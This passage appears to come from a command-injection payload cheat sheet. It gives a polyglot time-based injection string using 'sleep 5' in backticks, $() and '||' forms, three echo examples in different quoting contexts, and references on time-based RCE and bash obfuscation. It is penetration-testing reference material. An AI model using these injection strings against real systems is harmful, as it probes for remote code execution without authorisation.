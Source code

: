 ```bash
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

e.g:
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```

## References

* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
* [Bug Bounty Survey - Windows RCE spaceless](https://twitter.com/bugbsurveys/status/860102244171227136)
* [No PHP, no spaces, no $, no { }, bash only - @asdizzle](https://twitter.com/asdizzle_/status/895244943526170628)
* [#bash #obfuscation by string manipulation - Malwrologist, @DissectMalware](https://twitter.com/DissectMalware/status/1025604382644232192)
